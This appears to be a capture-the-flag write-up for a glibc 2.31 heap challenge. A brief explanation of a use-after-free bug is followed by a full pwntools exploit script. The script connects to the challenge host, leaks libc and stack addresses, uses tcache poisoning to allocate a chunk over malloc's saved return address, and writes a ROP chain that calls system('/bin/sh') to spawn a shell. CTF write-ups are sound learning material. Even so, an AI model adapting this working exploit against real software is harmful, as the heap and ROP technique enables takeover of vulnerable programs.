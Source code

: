 was a classic heap challenge with 52 solves at the end of the ctf

people are getting better day by day with heap...

![chall](https://github.com/user-attachments/assets/78d8036a-eb7b-4e9b-9099-529cf30bdbdb)


UAF vulnerability when free and the challenge is very generous with how many actions we can take

i leaked the libc and the stack to do ROP (from saved rip of malloc)

could definitely save time and just use malloc hooks... (glibc 2.31)

but i forgot about them when i was solving the challenge lol

anyway, here is the infamous do.py (with some comments)

```
#!/usr/bin/env python3

from pwn import *
context.arch = 'amd64'
'''
p = gdb.debug("./chall_patched", gdbscript="""
    c
""")
'''
p = remote("chall.ehax.tech", 1925)

libc = ELF("./libc.so.6")

def malloc(idx, size, data):
    p.sendline(b"1")
    p.sendlineafter(b"index?", idx.encode("utf-8"))
    p.sendlineafter(b"big?", size.encode("utf-8"))
    p.sendlineafter(b"payload?", data)

def free(idx):
    p.sendline(b"2")
    p.sendlineafter(b"index?", idx.encode("utf-8"))

def edit(idx, data):
    p.sendline(b"3")
    p.sendlineafter(b"index?", idx.encode("utf-8"))
    p.sendlineafter(b"contents?", data)

def view(idx):
    p.sendline(b"4")
    p.sendlineafter(b"index?", idx.encode("utf-8"))
    p.recvuntil(b">")
    return p.recvline().strip()

# leak libc via a chunk in unsortedbin
for i in range(9):                                                                                                                                                                          
    malloc(f"{i}", "128", b"CCCC")                                                                                                                                                          
                                                                                                                                                                                            
for i in range(8):
    free(f"{i}")

libc_leak = int.from_bytes(view("7"), 'little')
libc_base = libc_leak - 0x1ecbe0
env = libc_base + 0x1ef600 
print(f"libc base: {hex(libc_base)}")
print(f"environ: {hex(env)}")

# fill tcache
for i in range(9):
    malloc(f"{i}", "128", b"DDDD")

# leak heap for no reason :p
malloc("0", "20", b"AAAA")
malloc("1", "20", b"BBBB")
free("1")
free("0")

heap_leak = int.from_bytes(view("0"), 'little')

# allocate a chunk with a libc address that points to the stack
edit("0", p64(env))
malloc("1", "20", b"")
malloc("2", "20", b"")
free("1")

stack_leak = int.from_bytes(view("1"), 'little')
rip = stack_leak - 0x120
print(f"saved rip: {hex(rip)}")

# allocate a chunk on stack
malloc("3", "60", b"aaaa")
malloc("4", "60", b"bbbb")
free("4")
free("3")
edit("3", p64(rip))
malloc("3", "60", b"aaaa")

# do rop on saved rip of malloc
libc.address = libc_base 
rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]
binsh = next(libc.search(b"/bin/sh"))

payload = p64(ret) + p64(pop_rdi) + p64(binsh) + p64(libc.symbols['system'])
malloc("4", "60", payload)

# enjoy shell
p.interactive()
```

![flaggg](https://github.com/user-attachments/assets/279039a3-6b74-4cef-933c-96116e3bffb1)








